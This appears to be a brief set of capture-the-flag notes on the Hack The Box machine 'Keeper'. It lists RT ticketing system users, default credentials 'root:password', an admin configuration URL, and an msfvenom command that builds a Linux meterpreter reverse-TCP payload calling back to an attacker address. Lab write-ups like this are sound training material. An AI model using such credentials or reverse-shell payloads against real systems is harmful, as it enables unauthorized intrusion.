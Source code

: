 # Keeper

http://tickets.keeper.htb/rt/User/Summary.html?id=number 1 - RT System itself 2 - root 27 - lnorgaard 29 - webmaster

credentials `root:password`

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

Config file : http://tickets.keeper.htb/rt/Admin/Tools/Configuration.html

```bash
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=1234 -o payload -f elf -e cmd/perl
```
